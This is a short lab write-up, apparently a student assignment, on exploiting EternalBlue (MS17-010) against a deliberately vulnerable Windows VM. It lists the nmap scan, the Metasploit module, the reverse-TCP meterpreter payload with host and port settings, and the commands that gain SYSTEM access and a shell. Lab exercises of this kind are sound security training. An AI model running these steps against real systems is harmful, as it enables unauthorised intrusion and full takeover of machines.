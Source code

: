 # Eternal Blue

## Objective:

- I initiated the assignment by executing the **ifconfig** command on my Kali VM, identifying the machine's IP address as 10.0.2.6.


- I then proceeded with an nmap scan targeting the IP address to locate the metasploitable Windows machine. The results showed the machine's IP address as 10.0.2.8, and the open ports 139 and 445 indicated the running SMB service.


- To leverage nse scripts, I ran **nmap -Pn -p139,445 --script=smbvuln-* 10.0.2.8**. The output highlighted the vulnerability **smb-vuln-ms17-010**, susceptible to remote code execution and classified as a high-risk factor.


- To proceed, I launched the Metasploit framework using the **msfconsole** command.


- Within Metasploit, I searched for the **eternalblue** exploit using **search eternalblue**.


- I selected the **MS17-010 EternalBlue SMB Remote Windows** module with **use exploit/windows/smb/ms17_010_eternalblue**. By default, the PAYLOAD was set to **windows/x64/meterpreter/reverse_tcp**. Necessary adjustments were made to RHOSTS (10.0.2.8, Target IP), LHOST (10.0.2.6, Kali IP), and LPORT (4444, designated listening port).


- Initiating the attack, I executed the **exploit** command.


- To confirm successful entry into the metasploitable VM, I ran **sysinfo**. Verification of the user-level access was achieved with the **getuid** command, revealing the access level as **SYSTEM** - the highest privilege on the machine.


- Lastly, to imprint my identity on the remote machine's terminal, I invoked the **shell** command.
